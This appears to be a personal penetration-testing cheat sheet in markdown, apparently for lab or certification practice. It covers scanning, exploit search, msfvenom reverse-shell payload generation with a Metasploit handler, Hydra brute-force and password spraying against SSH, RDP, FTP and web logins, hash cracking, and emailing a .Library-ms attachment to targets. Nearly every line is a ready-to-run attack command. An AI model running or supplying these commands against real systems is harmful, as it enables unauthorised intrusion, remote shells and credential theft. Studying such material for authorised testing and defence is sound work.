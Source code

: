 # Setup
Create directories: `mkdir dc host1 host2`
- Create sub directories: `mkdir enu loot files exploits`
Setup hostnames: `sudo nano /etc/hosts` then add host/kali IPs
# Quick Reference
- `sudo nmap -T5 -p- -v host1 -oN enu/host1.nmap`
- `sudo nmap -T5 -p80,443,1978-1980 -sCV -v host1 -oN enu/nmap-services.nmap`
- `gobuster dir -u http://host1 -w /usr/share/dirb/wordlists/common.txt | tee gobuster-p80.nmap`
- `usr/share/wordlists/rockyou.txt`
- `usr/share/wordlists/SecLists`
- `nc -nvlp 4444` [NetCat Cheat Sheet](https://gist.github.com/cmbaughman/c91f41ba7b2cf71106f1)
- https://www.revshells.com/
# Exploits
- Searchspolit
	- Search exploits `searchsploit remote mouse 3.008`
	- View exploit `searchsploit -x 46697`
	- Copy exploit `searchsploit -m 46697`
- [Sicat](https://github.com/justakazh/sicat) (`~/Tools/sicat`)
	- Search exploits: `python3 ~/Tools/sicat/sicat.py -k "Keywords here" --exploitdb --msfmodule --packetstorm --exploitalert --nvd`
	- Use exported nmap xml (use `-oX nmap_out.xml`): `python3 ~/Tools/sicat/sicat.py -nm nmap_out.xml --exploitdb --msfmodule --packetstorm --exploitalert --nvd` 
- Nmap 
	- Grep Exploit list `grep Exploits /usr/share/nmap/scripts/*.nse`
	- NSE help `nmap --script-help=nsescript-name.nse`
- MSFvenom - [Cheatsheet](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/ )
	- PHP `msfvenom -p php/reverse_php LHOST=192.168.x.x LPORT=4444 -o shell.php`
	- Windows 
		- List x64 payloads: `msfvenom -l payloads --platform windows --arch x64`
		- Unstaged Revshell: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.xx.xxx LPORT=4444 -f exe > reverse.exe
		- Metasploit staged: `msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o staged.exe`
			- Open msfconsole on Kali: `sudo msfconsole -q`
			- Multi-handler: `use multi/handler`
			- Set payload: `set payload windows/x64/shell/reverse_tcp`
			- Set options: `show options`
			- Run: `run` to listen, then run binary on target (`.\staged.exe`)
	- [Alphanumeric Shellcode](https://www.offsec.com/metasploit-unleashed/alphanumeric-shellcode/) `msfvenom -a x86 --platform windows -p windows/shell/shell_reverse_tcp -e x86/alpha_mixed -f python`
# Grep
- `grep "text string" filetosearch.txt -A 5`
- `grep -rni "text string" /path/to/directory`
# Nmap
[Top 10 Scripts](https://www.stationx.net/nmap-scripts/)
- `sudo nmap -p- -T5 -o target.nmap 192.168. -v`
- `sudo nmap -Pn -p22,25,80 -sCV 192.168. -oN target.nmap -v`
- `sudo nmap -Pn -p21,242,3145,3389 -sCV 192.168.171.46 -oN authby-tcp.nmap -v --script=vulners --script-args mincvss=9.8`
# Fuzzing
Gobuster
- Directory search: `gobuster dir -u http://target.ip.address.here:port -w //usr/share/dirb/wordlists/common.txt`
- Find files: `gobuster dir -u http://www.targetwebsite.com/ -w /usr/share/dirb/wordlists/big.txt -x php,html,htm`
	- Other wordlists: `common.txt`
FFUF
- Directory search: `ffuf -u http://192.168.x.x:80/FUZZ -w /usr/share/wordlists/secLists/Discovery/Web-content/raft-medium-directories.txt -o ffuf_port`
# Hydra
- [Cheatsheet](https://github.com/frizb/Hydra-Cheatsheet)
- FTP Default Creds: `hydra -C /usr/share/secLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.x.x`
- HTTP Login: `hydra -L /usr/share/secLists/usernames/top-usernames-shortlist.txt -P /usr/share/dirb/wordlists/others/best1050.txt 192.168.x.x http-get /`
- SSH with known user: `sudo hydra -l username -P ~/Downloads/rockyou.txt -s PORT ssh://192.168.xx.xxx`
- Password Spray RDP: `sudo hydra -L ~/Downloads/rockyou.txt -p "sUp3rs3cur3p@ssw0rd rdp://192.168.xx.xxx`
- HTTP POST Login Form:
	- Use burp to intercept a failed login attempt
	- Copy line from POST request with username/password
	- Run Hydra with failed login: `hydra -l user -P ~/Downloads/rockyou.txt 192.168.target.ip http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"`
# Cracking
- John
`john user.hash --wordlist=/usr/share/wordlists/rockyou.txt --rules=sshRules`
- SSH2John: `wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
	-  `ssh2john id_rsa > ssh.hash` (`nano` to remove usernames from start of `ssh.hash`)
	- `ssh -i root_rsa root@127.0.0.1 -o IdentitiesOnly=yes`

- Hashcat - https://github.com/frizb/Hashcat-Cheatsheet
	- (MD5): `hashcat -m 0 user.hash /usr/share/wordlists/rockyou.txt -r password.rule --force`
	- HashID: `hashcat --help | grep -i "Hashname"`
		- `hash-identifier` or `hashid hashhere`
	- Find mode: `hashcat --help | grep -i "ntlm"`
	- Password Rules: `ls -la /usr/share/hashcat/rules/`[Special Rules](https://github.com/Unic0rn28/hashcat-rules)
## Email - swaks 
Sending Emails with attachments to server req. authentication
`sudo swaks -t target.user@target.com --from test@target.com -ap --attach @config.Library-ms --server target.mail.server.ip --body @emailbody.txt --header "Subject: " --suppress-data --auth-user test@target.com --auth-password knownpassword`
## Web
- Banner Grabbing: `curl -IL http://weboripaddress` & Ctrl+U to view page source
- `whatweb 192.168.xx.xxx`
- [Wordpresscan](https://github.com/swisskyrepo/Wordpresscan)
- `wpscan --url http://192.168.xx.xxx --enumerate p --plugins-detection aggressive -o target/wpswcan`
- Wordpress RCE https://medium.com/@althubianymalek/uploading-a-shell-in-wordpress-via-sqli-entry-point-1caf441b3d9a


